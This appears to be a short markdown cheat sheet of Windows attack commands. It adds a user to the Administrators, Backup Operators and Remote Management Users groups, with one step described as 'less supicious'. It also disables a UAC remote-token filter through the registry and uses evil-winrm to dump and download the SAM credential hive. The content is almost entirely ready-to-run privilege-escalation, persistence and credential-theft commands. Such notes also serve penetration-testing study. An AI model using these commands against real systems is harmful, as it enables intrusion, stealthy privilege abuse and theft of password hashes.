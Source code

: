 # 🌆  Windows / Commands

This documents is for windows

---

## 🧚‍♀️ Admin perm via group

- Add administrator group for a user\
`net localgroup administrators <USER> /add`

- Add B.O to get SAM content and be less supicious\
`net localgroup "Backup Operators" <USER> /add`

- Add user to allow RDP\
`net localgroup "Remote Management Users" <USER> /add`

---

## 🛸 UAC

- Desactivate the option in reg to use admin with rdp\
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

---

## 🦉 Evil WinRm

- Connect to a windows machine\
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`

- Download the sam file
`reg save hklm\sam sam.bak`
`download sam.bak`


---
